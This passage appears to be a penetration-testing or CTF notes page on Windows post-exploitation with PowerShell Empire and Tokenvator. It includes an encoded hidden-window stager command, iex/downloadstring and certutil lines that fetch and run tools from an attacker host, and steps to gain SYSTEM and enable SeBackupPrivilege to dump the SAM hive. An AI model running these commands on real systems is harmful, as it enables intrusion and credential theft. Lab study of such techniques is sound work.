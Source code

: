 

### Use **powershell empire**

> Powershell will go wrong when windows version is too old

Start Empire server and listener then generate stager

```bash
./ps-empire server
./ps-empire client

usestager multi_launcher
set Listener http
generate
```

Execute stager

```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8Ab...
```

> In some cases, will need to specify powershell's full path 

After that, just use powershell empire's powerful modules


### Tokenvator

From **PowerSharpPack**

> Not working on this machine due to the old powershell version
{: .prompt-danger }

```bash
iex(new-object net.webclient).downloadstring("http://10.11.19.145/Invoke-Tokenvator.ps1")
Invoke-Tokenvator -Command 'GetSystem'
Invoke-Tokenvator -Command 'Sample_Processes'
```

^fc5689

Use exe version if powershell failed to ececute

```bash
certutil -urlcache -split -f http://10.11.19.145/Tokenvator.exe token.exe
token help


# Grant token to dump sam hive
token Enable_Privilege /Privilege:SeBackupPrivilege


# or get all tokens
token GetSystem
```

